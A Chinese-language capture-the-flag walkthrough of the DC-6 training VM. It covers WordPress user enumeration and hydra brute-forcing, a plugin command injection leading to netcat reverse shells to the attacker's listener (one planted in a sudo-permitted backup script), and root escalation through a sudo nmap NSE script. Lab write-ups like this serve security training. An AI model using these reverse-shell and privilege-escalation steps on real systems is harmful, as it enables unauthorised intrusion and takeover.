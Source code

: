 ```yaml
---
 title: DC-6靶机渗透实战
 date: 2020-02-06 20:14:46
 tags: Scrapy
 categories: Scrapy
---
```


### 靶机介绍

这次的靶机渗透实战是一个找寻靶机中的flag的过程，并以获得最终的flag为目标。
靶机下载地址:http://www.five86.com/dc-6.html

### 信息搜集
直接上nmap进行扫描
> nmap -sV -A -p- 172.16.0.18
```
Nmap scan report for localhost (172.16.0.18)
Host is up (0.00019s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
MAC Address: 00:0C:29:9C:80:16 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
**可知开放22、80端口，linux主机，同样要设置hosts,发现是wordpress**
发现开了80端口却无法访问，是重定向到wordy域名，可改hosts文件访问，添加ip对应域名

win10路径： C:\Windows\System32\drivers\etc\hosts

linux路径： etc/hosts

* 根据靶机官网提示
> cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt That should save you a few years. ;-)
**猜测爆破进入后台**

<!--more-->

### 渗透实战
1. wpscan扫描用户,获取到5个用户
> wpscan --url wordy -e u
```
[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://wordy/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] graham
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] mark
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] sarah
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] jens
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
2. 尝试爆破ssh和web后台
- 爆破后台
> hydra -L users.txt -P jimpass.txt -f wordy http-post-form "wp-login.php:text=^USER^&pwd=^PASS^:S=logout"
* 获取到密码
> mark helpdesk01
- 进入后台发现有个active管理插件命令执行漏洞
![2020-2-6-21-21-21](https://raw.githubusercontent.com/bbkali/picbad/master/2020-2-6-21-21-21)
- 直接抓包使用nc反弹shell
> nc 172.16.0.10 2222 -e /bin/bash
![2020-2-6-21-22-34](https://raw.githubusercontent.com/bbkali/picbad/master/2020-2-6-21-22-34)
- 获取交互shell
> python -c "import pty;pty.spawn('/bin/bash')"
```
root@bbkali:/tmp/dc6# nc -lvp 2222
listening on [any] 2222 ...
connect to [172.16.0.10] from wordy [172.16.0.18] 36108
python -c "import pty;pty.spawn('/bin/bash')"
```
- 常规翻看目录，发现有价值提示to-do-sometings.txt
```

www-data@dc-6:/home$ ls -R

.:
graham  jens  mark  sarah

./graham:

./jens:
backups.sh

./mark:
stuff

./mark/stuff:
things-to-do.txt

./sarah:

www-data@dc-6:/home/mark/stuff$ cat things-to-do.txt 

Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
```
* 发现graham密码
3. 提权
- ssh登录graham发现backups.txt可利用提权
```
graham@dc-6:/home$ sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
graham@dc-6:/home$ cat /home/jens/backups.sh
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
```
- 直接将nc命令加入backups.sh
```
graham@dc-6:/home/jens$ cat backups.sh 
nc 172.16.0.10 2223 -e /bin/bash
graham@dc-6:/home/jens$ sudo -u jens ./backups.sh
```
- 获取到jens权限,发现能以root用户免密码执行nmap
```
pwd
/home
whoami
jens
sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
```
- 写个nmap脚本
> echo 'os.execute("/bin/sh")' > root.nse
- 运行该脚本获取root权限并拿到flag
> sudo nmap --script=/home/jens/root.nse
```
jens@dc-6:~$ sudo nmap --script=/home/jens/root.nsesudo nmap --script=/home/jens/root.nse


Starting Nmap 7.40 ( https://nmap.org ) at 2020-02-07 00:06 AEST
# pwd
/home/jens
# whoami
root
# cd /root
# s^H
/bin/sh: 4: : not found
# ls
theflag.txt
# cat theflag.txt


Yb        dP 888888 88     88         8888b.   dP"Yb  88b 88 888888 d8b 
 Yb  db  dP  88__   88     88          8I  Yb dP   Yb 88Yb88 88__   Y8P 
  YbdPYbdP   88""   88  .o 88  .o      8I  dY Yb   dP 88 Y88 88""   `"' 
   YP  YP    888888 88ood8 88ood8     8888Y"   YbodP  88  Y8 888888 (8) 


Congratulations!!!

Hope you enjoyed DC-6.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```